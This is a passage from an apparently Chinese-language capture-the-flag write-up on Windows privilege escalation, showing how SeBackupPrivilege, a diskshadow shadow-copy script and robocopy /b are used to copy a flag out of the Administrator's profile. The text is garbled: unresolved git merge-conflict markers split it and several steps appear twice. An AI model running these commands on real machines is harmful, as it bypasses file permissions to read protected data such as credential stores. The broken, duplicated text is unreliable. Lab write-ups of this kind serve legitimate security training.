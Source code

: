 新建 s.dsh 文件，创建目标系统上 C 盘的备份：

```plain
=======
```bash
Import-Module .\EnableSeBackupPrivilege.ps1
```

[![](assets/1710465426-2cf257b06f39fb2f0b987b607529971c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240313104353-87ede09a-e0e3-1.png)

新建 s.dsh 文件，创建目标系统上 C 盘的备份：

```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
set context persistent nowriters
add volume c: alias mydrive
create
expose %mydrive% z:
```

将 s.dsh 文件编码和间距转换为与 Windows 机器兼容形式（在 Windows 上新建 s.dsh 可忽略此步）：

<<<<<<< HEAD
```plain
unix2dos s.dsh
```

以管理员权限在 PowerShell 中执行命令。当前用户路径权限不够，需要在 C 盘新建目录 Temp，执行 diskshadow 并拷贝 flag02 ：

```plain
=======
```bash
unix2dos s.dsh
```

以管理员权限在 PowerShell 中执行命令。当前用户路径权限不够，需要在 C 盘新建目录 Temp，执行 diskshadow 并拷贝 flag02：

```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
PS C:\Users\chenhua\Desktop> cd C:\
PS C:\Users\chenhua\Desktop> mkdir Temp
PS C:\Temp> diskshadow /s s.dsh
PS C:\Temp> dir z:\Users\Administrator\flag\
PS C:\Temp> robocopy /b z:\Users\Administrator\flag\ . flag02.txt
```
